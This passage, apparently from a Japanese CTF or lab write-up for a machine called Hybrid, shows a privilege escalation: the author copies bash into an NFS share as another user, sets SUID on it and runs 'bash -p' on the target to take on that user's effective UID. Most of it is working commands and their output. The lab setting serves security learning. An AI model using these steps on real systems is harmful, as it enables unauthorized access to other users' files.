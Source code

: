 bashを`peter.turner@hybrid.vl`の権限で、コピーする
```sh
┌──(kali㉿kali)-[~/Desktop/Vulnhub/Hybrid]
└─$ sudo su -l peter.turner@hybrid.vl
$ cd /tmp/nfs_mount
$ cp bash /tmp/exploit_bash
$ exit
```
コピーできた

SUIDをつける
```sh
┌──(kali㉿kali)-[~/Desktop/Vulnhub/Hybrid]
└─$ sudo chmod +s /tmp/exploit_bash
                                                                                                                                        
┌──(kali㉿kali)-[~/Desktop/Vulnhub/Hybrid]
└─$ ls -la /tmp/exploit_bash
-rwsr-sr-x 1 peter.turner@hybrid.vl peter.turner@hybrid.vl 1396520 Oct 14 07:02 /tmp/exploit_bash

```

`peter.turner@hybrid.vl`で、NFSに元からあったbashを消して、アップロードする
```sh

┌──(kali㉿kali)-[~/Desktop/Vulnhub/Hybrid]
└─$ sudo su -l peter.turner@hybrid.vl
su: warning: cannot change directory to /home/peter.turner@hybrid.vl: No such file or directory
$ cd /tmp/nfs_mount     
$ rm -f bash exploit_bash
$ cp /tmp/exploit_bash bash
$ ls -la bash
-rwxr-xr-x 1 peter.turner@hybrid.vl peter.turner@hybrid.vl 1396520 Oct 14 07:09 bash
```
上で、SUIDを付与したのにも関わらず、消えていることがわかる

なので、コマンドの中で、SUIDを設定する
```sh
$ chmod +s bash            
$ ls -la
total 1380
drwxrwxrwx  2 nobody                 nogroup                   4096 Oct 14 07:09 .
drwxrwxrwt 16 root                   root                       440 Oct 14 07:09 ..
-rw-r--r--  1 root                   root                      6003 Jun 18  2023 backup.tar.gz
-rwsr-sr-x  1 peter.turner@hybrid.vl peter.turner@hybrid.vl 1396520 Oct 14 07:09 bash
-rw-rw-r--  1 kali                   kali                         5 Oct 14 06:38 test.txt
```
これで、SUIDを設定できたことがわかった

### ターゲットホスト
SUIDを設定できたbashを実行する
- `-p`オプション　: privilegedモード。これで[peter.turner@hybrid.vl](mailto:peter.turner@hybrid.vl)の権限でシェルが取得できる
```sh
www-data@mail01:/opt/share$ /opt/share/bash -p
/opt/share/bash -p
bash-5.1$ id
id
uid=33(www-data) gid=33(www-data) euid=902601108(peter.turner@hybrid.vl) egid=1001 groups=1001,33(www-data)
```
uidは、www-data(実際のユーザー)のものだが、euid(Effective User ID : 有効なユーザー)は、`peter.turner@hybrid.vl`のものになっている。
**ファイルアクセスの権限チェックは、euidで判断される**
そのため、このシェルで`peter.turner@hybrid.vl`のファイル権限にアクセスできるということ
